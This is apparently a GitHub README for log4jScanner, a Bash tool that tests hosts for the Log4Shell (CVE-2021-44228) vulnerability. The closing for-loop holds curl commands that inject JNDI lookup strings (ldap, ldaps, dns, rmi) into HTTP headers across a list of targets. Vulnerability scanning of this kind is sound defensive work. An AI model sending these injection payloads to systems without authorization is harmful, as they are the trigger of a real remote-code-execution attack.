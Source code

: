 # log4jScanner

 log4jScanner.sh is a BASH script to validate the vulnerability (CVE-2021-44228) of a given IP/URL.
 
 The script perfectly validates the existence of the vulnerability based on the *RETURN* traffic of 4 protocols ldap | ldaps | rmi | dns 
 
 Thus, the testing methedology is completely safe and non-invasive. 
 
 ## Understand The Attack Vector:
 
 First and foremost, I suggest reviewing the provided pcapng file in wireshark for a thorough understanding of the attack vector. 
 The pcapng file captured complete start-to-end traffic of a perfectly compromised target in lab environment.
 
 For your reference, 192.168.190.100 and 1389 are the attacker's IP/Port, and 192.168.190.44:8080 are the victim's (Tomcat) IP/Port. 
 
 ## Note: Do not forget to add the visibility of SourcePort and DstinationPort in your wireshark setting's column preferences. 
 
## Requirements

If you prefer to test the internet facing target, then this test requires to be executed on a DMZ host,
on which you can open desired port for scanner's return traffic from the target. I have used and tested on free tier AWS EC2 Kali Linux instance. 

If you prefer to test the intranet facing target, then you simply make sure that Scanner-Return-Traffic-Port is reachable to the target. 

[Example: ./log4jScanner.sh 192.168.1.100:443 1389]

## Prepare the Kali instance with the below mentioned packages.

```bash
 apt install iptables iptables-persistence rsyslog curl vim
 
 systemctl restart rsyslog
```
## Download the script

```bash
git clone https://github.com/defcon250/log4jScanner
```

## Usage

```bash
  cd ./log4jScanner
  ./log4jScanner.sh  <Target-IP>:<Target-Port>  <Scanner-Return-Traffic-Port>  
  
  [Example: ./log4jScanner.sh 192.168.1.100:443 1389]
```
## To automate testing of multiple IP/URLs, please feel free to modify the script accordingly.

```bash
Hint: While refering the log4jScanner.sh, consider modifying the script to include the following for-loop.

for i in $(cat /tmp/urls.txt); do timeout 2 curl -ksqL http://"$i" -H "x-api-version: \${jndi:ldap://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1> /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:ldaps://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}" 1> /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:ldaps://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1>  /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:dns://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1> /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:rmi://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}" 1> /dev/null; done
````



